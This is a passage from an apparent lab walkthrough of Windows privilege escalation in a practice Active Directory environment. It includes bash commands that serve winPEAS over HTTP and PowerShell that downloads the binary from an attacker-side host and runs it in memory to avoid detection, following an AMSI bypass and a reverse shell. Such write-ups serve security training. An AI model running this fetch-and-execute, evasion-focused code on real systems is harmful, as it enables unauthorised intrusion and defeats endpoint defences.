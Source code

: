 ![privesc_amsi_bypass.png](/assets/blog/GOAD/privesc_amsi_bypass.png)

- Once we have done that, we can play what we want with the condition to don't touch the disk ! #the_disk_is_lava
- We can now play all our .net application by running them directly with execute assembly.


### winPeas without touching disk

- My favorite tools to look for privilege escalation is without a doubt [winpeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
- We already bypass amsi on the previous step, what we can do now to avoid detection is put winpeas on an http server and load it in memory
- [This article](https://www.praetorian.com/blog/running-a-net-assembly-in-memory-with-meterpreter/) explain very well how to load and run an assembly with powershell full in memory.

```bash
cd /var/www/html
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASany_ofs.exe
python3 -m http.server 8080
```

- And play winPeas from memory with the following powershell commands (As winPeas is in .net we load the assembly and run it directly) :

```powershell
$data=(New-Object System.Net.WebClient).DownloadData('http://192.168.56.1:8080/winPEASany_ofs.exe');
$asm = [System.Reflection.Assembly]::Load([byte[]]$data);
$out = [Console]::Out;$sWriter = New-Object IO.StringWriter;[Console]::SetOut($sWriter);
[winPEAS.Program]::Main("");[Console]::SetOut($out);$sWriter.ToString()
```

- WinPeas take several minutes to complete and give the prompt back with all the info (without the capture of the console out the output is empty in our basic powershell reverseshell, if you got a "real" shell you don't have to do that and just launch the `[winPEAS.Program]::Main("");` without the console stuff, thanks to PowerSharpPack code for the trick)
